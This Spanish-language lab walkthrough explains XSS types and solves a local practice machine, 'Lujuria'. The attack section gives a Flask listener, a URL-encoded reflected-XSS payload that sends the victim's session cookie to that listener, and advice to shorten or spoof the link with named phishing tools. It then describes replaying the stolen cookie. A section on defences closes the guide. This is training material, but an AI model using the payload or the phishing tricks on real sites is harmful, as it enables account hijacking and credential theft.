



= Lujuria
:author: Manuel L. Quero
:revdate: 2025-03-13
:toc: left
:doctype: book

== Ataque XSS

Este ataque permite a los atacantes implantar scripts maliciosos en un sitio web legítimo (también víctima del atacante) para ejecutar un script en el navegador de un usuario desprevenido que visita dicho sitio y afectarlo, ya sea robando credenciales, redirigiendo al usuario a otro sitio malicioso, o para cambiar la apariencia de un sitio web.

=== Tipos de ataques XSS

Existen tres tipos de ataques XSS:

==== Reflejado/Indirecto

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el servidor refleja el código malicioso en la respuesta. Se trata de la variedad de XSS más simple y el script malicioso que busca afectar el navegador de la víctima es fácilmente modificable, probablemente sin que el usuario note el ataque.

==== Persistente/Directo/Almacenado

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el servidor almacena el código malicioso en la base de datos. De esta forma persiste el script inofensivo, hasta que el valor es recuperado por la aplicación y utilizado para conformar parte del documento HTML. Ejemplos de esto pueden ser: los comentarios de sitios web, entradas de blog, nombres de usuario, chats, formularios de contacto, detalle de alguna orden, etc.

==== Document Object Model (DOM)

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el código malicioso se ejecuta en el navegador de la víctima. DOM facilita la estructura de documentos como HTML o XML y permite a los programas modificar la estructura, estilo y contenido del documento. El ataque DOM XSS se produce cuando el código malicioso se ejecuta en el navegador de la víctima, pero no se envía al servidor. Esto lleva a que el usuario ejecute código desde el lado del cliente sin saber que lo está haciendo.

.Algunas funciones JavaScript vulnerables
[%collapsible]
====
Algunas funciones en JavaScript que pueden ser un indicador de un posible punto vulnerable son:

    domain
    write()
    writeln()
    innerHTML
    insertAdjacentHTML
    onevent
    Element.outerHTML

Sin olvidar las librerías como JQuery, en donde utiliza métodos específicos para facilitar algunas funciones tradicionales del propio JavaScript, u otras librerías sin la adecuada codificación de los datos:

    $.parseHTML()
    add()
    after()
    animate()
    append()
    before()
    constructor()
    has()
    html()
    index()
    init()
    insertAfter()
    insertBefore()
    parseHTML()
    prepend()
    replaceAll()
    replaceWith()
    wrap()
    wrapAll()
    wrapInner()
====

== Solucionar la máquina

Vamos a ver en esta guía como solucionar la máquina *Lujuria*. Se basa en el robo de cookies, por un XSS reflejado y un ligero ataque de phising.

En nuestro caso, actuaremos como *_víctima_* y como *_atacante_*.

* Desde el punto de vista de la *_víctima_* deberemos saber las credenciales para loguearnos y dejar la cuenta abierta. 
* Desde el punto de vista del *_atacante_* no deberemos saber las credenciales del usuario, pero le enviaremos una campaña de phising ficticia a la víctima.

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

=== Despliegue de la máquina

[source,bash]
----
$ sudo bash auto_deploy.sh lujuria.tar
----

Como el despliegue es en local, para comprobar que todo se ha realizado correctamente, deberemos crear dos usuarios en nuestro navegador de confianza:

[cols="1,1"]
|===
|Navegador|URL

|Firefox
|about:profiles

|Brave
|brave://settings/manageProfile

|Chrome
|chrome://settings -> "Personas"

|Opera
|opera://settings/side-profiles-settings
|===

=== Víctima

Con la máquina desplegada, abrimos nuestra sesión en firefox e introducimos la IP que nos devolverá el *autodeploy.sh*. Una vez en la página de login, introducimos nuestras credenciales (usuario: dante, contraseña: dante123). Una vez dentro de la página, nos quedamos logueados.

=== Atacante

==== Despliegue de servidor a la escucha

Siendo atacantes, vamos a crear un archivos .py con el siguiente script. Este script crea un servidor local que está a la escucha en el puerto 1337. 

Código tomado de https://skf.gitbook.io/asvs-write-ups/httponly-session-hijacking-xss/httponly-session-hijacking-xss#exploitation[Security Knowledge Framework]

.Ver código
[%collapsible]
====
[source,python]
----
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
----
====
Para poder utilizar este código deberemos tener descargado python3 y después descargaremos las librerias flask y requests. Por último iniciamos el programa.

[source,bash]
----
$ sudo apt install python3
$ pip install flask
$ pip install requests
$ python3 app.py
----

==== Creación de URL maliciosa

Entonces nuestra intención es que la víctima inyecte sin darse cuenta código malicioso javascript. Como atacantes, debemos saber que en la página después de login hay un bloque de texto y que esta es *welcome.php*. 

Entonces vamos a crear nuestra URL maliciosa:

. Comenzamos sabiendo que es el servidor es http, así que no tiene seguridad. [http://]
. Sabemos que el dominio es la IP dada por el *autodeploy.sh*. [http://IP/]
. También conocemos que el servidor tiene la página *welcome.php* y que tiene un bloque de texto. [http://IP/welcome.php?q=] (?q= es la query que espera)
. Y por último nuestro script en javascript, que le enviará las cookies al puerto que abre el .py:

[source,javascript]
----

----

Entonces nuestra URL maliciosa quedaría tal que:

----
http://IP/welcome.php?q=
----

Pero esta URL no la entenderá correctamente el navegador, tenemos que codificarla:

----
http://localhost:8080/welcome.php?q=%3Cscript%3Enew%20Image().src%20%3D%20%22http%3A%2F%2Flocalhost%3A1337%2F%3Fstolen_cookie%3D%22%20%2B%20document.cookie%3B%3C/script%3E
----

==== Los detalles importan

Y si nos gusta atender al detalle, sería recomendable acortar la URL, para que no sea tan sospechosa, incluso podremos enmascararla con algunos programas. Ya que fondomarcador.com posee un acortador, podemos utilizarlo y que parezca menos sospechoso.

Como dato informativo, también existen varios programas en github que nos ayudan a enmascarar nuestra URL o hacernos pasar por otras páginas:

* https://github.com/darkmidus/HiddenEye[HiddenEye] -> HiddenEye es una herramienta de phishing avanzada que permite simular páginas de inicio de sesión falsas para recopilar credenciales. Puede generar enlaces personalizados y utiliza técnicas para evadir detección. También incluye opciones para personalizar ataques dirigidos y simular captchas.
* https://github.com/yangr0/BlackPhish[BlackPhish] -> BlackPhish es una herramienta para realizar ataques de phishing. Permite crear páginas web maliciosas que se asemejan a servicios populares para recolectar datos. Este programa es modular y está diseñado para principiantes en pruebas de penetración.
* https://github.com/Darkmux/URLSpoof[URLSpoof] -> URLSpoof es una herramienta para simular enlaces visualmente similares a URLs legítimas mediante el uso de caracteres Unicode. Está diseñada para demostrar ataques de ingeniería social basados en la confianza en los nombres de dominio.
* https://github.com/UndeadSec/EvilURL[EvilURL] -> EvilURL genera URLs maliciosas que parecen auténticas mediante el uso de caracteres Unicode similares (homoglyphs). Se utiliza para probar la protección de los navegadores frente a ataques de phishing y spoofing de enlaces.

=== Finalizar

Como *atacante* entramos en nuestro perfil del navegador y nos metemos en la IP del servidor. Entonces deberemos darle al *F12* e irnos a la sección de *almacenamiento* y en *cookies*, cambiar la nuestra por la de la víctima. Una vez hecho esto, en la barra del navegador deberemos acceder a */welcome.php* y ya estaremos dentro.

== ¿Cómo prevenir?

=== Herramientas

Hay varias herramientas que nos permiten identificar ataques XSS o exploits en nuestra página.

* https://github.com/epsylon/xsser[epsylon/xsser]
* https://beefproject.com/[beefproject]
* https://github.com/s0md3v/XSStrike[s0md3v/XSStrike]
* https://github.com/ssl/ezXSS[ssl/ezXSS]

=== Para usuarios

Desde el punto de vista del cliente, lo mejor es *desactivar JavaScript*, de esta forma ataques de DOM XSS cómo su objetivo son los códigos de Java del explorador, no tendría ningún efecto. También hay add-ons para los navegadores como https://noscript.net/[NoScript] su configuración estándard fija el bloqueo automático de contenidos activos tales como JavaScript, Java Applets, Adobe Flash o Microsoft Silverlight.

=== Para administradores web

* *Implementar una política de seguridad de contenido* -> Definir políticas de seguridad de contenido (CSP) sólidas para el sitio web y la aplicación web, e implementarlas en los servidores web. Una CSP es una capa adicional de seguridad que puede detectar y mitigar ciertos tipos de ataques. Para evitar los ataques XSS, restringe los scripts que se pueden ejecutar. 

* *Cookies seguras* -> Los equipos de seguridad pueden establecer reglas especiales sobre cómo los servidores web manejan las cookies para reducir la probabilidad de robo de cookies. Por ejemplo, pueden vincular las cookies a direcciones IP específicas.

* *Firewall de aplicación web (WAF)* -> Un https://www.cloudflare.com/es-es/learning/ddos/glossary/web-application-firewall-waf/[WAF], funcionando como un proxy inverso situado en un servidor delante de aplicaciones web, protege a esas aplicaciones supervisando y filtrando el tráfico HTTP entre las aplicaciones e Internet. Las organizaciones pueden establecer reglas WAF para inspeccionar las URL en busca de scripts maliciosos y bloquearlos para que no se reflejen a los usuarios. Las soluciones WAF con aprendizaje automático ofrecen una protección aún mayor al detectar los intentos de eludir las reglas e identificar las variaciones de los ataques conocidos.

* *Codificación* -> Escapar de la entrada del usuario para que el navegador la interprete solo como datos, no como código. El tipo más reconocible de codificación en el desarrollo web está escapando HTML, que convierte los caracteres como en < y >, respectivamente.

* *Validación* -> La validación es el acto de filtrar la entrada del usuario para que se eliminen todas las partes malintencionadas, sin eliminar necesariamente todo el código que contiene. Uno de los tipos de validación más reconocibles en el desarrollo web es permitir algunos elementos HTML (como <em> y <strong>) pero no permitir otros (como <script>).

* *Clasificar en listas* -> Poner en la lista negra como no válida aquellas cadenas que coincidan con el patrón, la lista negra puede resultar complejo al tener que plantearse las posibilidades. Podríamos usar listas blancas, en lugar de definir un patrón prohibido, un enfoque de lista blanca define un patrón permitido y marca el ingreso como inválido si no coincide con este patrón. Esto resulta mucho más sencillo y longevo (de larga duración).

* *Cambiar la entrada* -> Si la entrada no es válida podríamos rechazarla o desinfectarla eliminando las partes no válidas

Para ampliar más la información vease -> https://www.w3.org/blog/2025/how-to-protect-your-web-applications-from-xss/[W3C XSS 2025]

Cómo hemos podido ver hay muchas formas de mitigar este tipo de ataques, aunque siempre será posible saltarse todo este tipo de protección, ya que la seguridad no nos proporciona estar seguros siempre, deberemos estar siempre alerta, ya que el mal siempre acecha desde todo el mundo.

----
"El único sistema verdaderamente seguro es aquel que está apagado, desconectado, encerrado en un bloque de hormigón y sellado en una habitación con guardias bien pagados. Y aun así, no apostaría por ello."

- Eugene H. Spafford
----